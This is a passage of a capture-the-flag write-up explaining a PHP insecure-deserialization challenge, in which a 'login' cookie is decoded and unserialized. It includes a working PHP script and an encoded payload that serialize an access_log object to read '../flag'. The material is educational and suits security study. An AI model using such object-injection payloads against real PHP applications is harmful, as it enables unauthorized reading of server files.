 ```python
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

In `cookie.phps`, we found a `permissions` class responsible for `authentication` and `querying`, returning an `object`. The code uses hardcoded `username` and `password` values to prevent `SQL injection`. Below that, it processes a `Cookie` variable named `login`, `deserializing` its value. The process involves `Base64 decoding`, followed by `URL decoding`, and finally calling the appropriate function to return the result.

* **Exploit**

The exploitation method involves sending a `login` cookie with a specific value to the `authentication.php` endpoint. This endpoint then calls `cookie.phps` for `verification`. If the user is recognized as an `admin`, it creates a `$log object` to `access` and `read files`; otherwise, it returns `guest` . Let's review the `serialization` process so we can craft the appropriate value for login to create our `payload`
```python
$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
```

Thus, we can exploit the serialization vulnerability using the `access_log` class and `serialize` an object pointing to `../flag` as hinted. Since our `injected` value lacks `authentication` data, `cookie.php` won't return anything for `verification`, causing the program to enter the catch block, which then returns an `access_log object`, allowing us to read the file contents

`create payload`
```python
<?php

class access_log
{
    public $log_file;

    function __construct($lf) {
        $this->log_file = $lf;
    }

    function __toString() {
        return $this->read_log();
    }

    function append_to_log($data) {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log() {
        return file_get_contents($this->log_file);
    }
}

$perm_res = new access_log("../flag");
$perm_res_encoded =  urlencode(base64_encode(serialize($perm_res)));
echo $perm_res_encoded;

?>
#TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```
